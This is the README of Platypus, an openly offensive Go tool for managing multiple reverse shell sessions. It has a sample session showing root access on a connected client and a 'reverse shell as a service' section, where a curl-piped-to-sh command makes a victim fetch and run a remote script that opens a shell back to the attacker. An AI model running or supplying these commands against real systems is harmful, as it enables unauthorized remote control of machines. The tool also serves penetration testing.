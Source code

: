 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service
- [ ] Upgrade common reverse shell session into full interactive session

#### Example
```
# Download binary from https://github.com/WangYihang/Platypus/releases
root@kali:~# chmod +x ./Platypus_linux_amd64
root@kali:~# ./Platypus_linux_amd64
>> Help
Usage: 
	Help [COMMANDS]
Commands: 
Command
	execute a command on the current session
DataDispatcher
	DataDispatcher command on all clients which are interactive
Exit
	Exit the whole process
	If there is any listening server, it will ask you to stop them or not
Info
	Display the infomation of a node, using the hash of the node
Interact
	Pop up a interactive session, you can communicate with it via stdin/stdout
Jump
	Jump to a node, waiting to interactive with it
List
	Try list all listening servers and connected clients
REST
	Start a RESTful HTTP Server to manager all clients
Run
	Try to run a server, listening on a port, waiting for client to connect
Switching
	Switch the interactive field of a node, allows you to interactive with it
	If the current status is ON, it will turns to OFF. If OFF, turns ON
>> Run 0.0.0.0 8080
>> 2018/10/24 14:36:39 Server running at: [b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (0 online clients) (started at: now)
>> 2018/10/24 14:37:05 New client [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: now) [false] Connected
>> List
2018/10/24 14:37:11 Listing 1 servers
[b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (1 online clients) (started at: 31 seconds ago)
	[d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 6 seconds ago) [false]
>> Jump d
2018/10/24 14:37:12 The current interactive shell is set to: [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 7 seconds ago) [false]
>> Interact
2018/10/24 14:37:14 Interacting with [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 9 seconds ago) [false]
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
>> REST 127.0.0.1 9090
2018/10/24 14:37:27 RESTful HTTP Server running at 127.0.0.1:9090
```

#### Reverse shell as a Service
```bash
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### TODO
- [ ] More interfaces in RESTful API
